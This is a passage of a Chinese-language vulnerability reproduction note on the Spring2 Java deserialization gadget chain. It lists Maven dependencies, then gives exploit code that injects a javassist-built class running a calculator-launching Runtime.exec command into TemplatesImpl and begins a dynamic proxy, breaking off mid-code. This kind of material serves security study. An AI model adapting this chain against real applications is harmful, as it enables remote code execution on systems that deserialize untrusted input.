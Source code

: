 # 环境搭建

```
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

与Spring1所需依赖不同，将spring-beans替换成了spring-aop

# 漏洞复现

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.framework.AdvisedSupport;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class Spring2 {
    public static String fileName = "Spring2.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[][] bytes = new byte[][]{STU.toBytecode()};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);

        // 实例化 AdvisedSupport
        AdvisedSupport as = new AdvisedSupport();

        as.setTarget(templates);

        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
```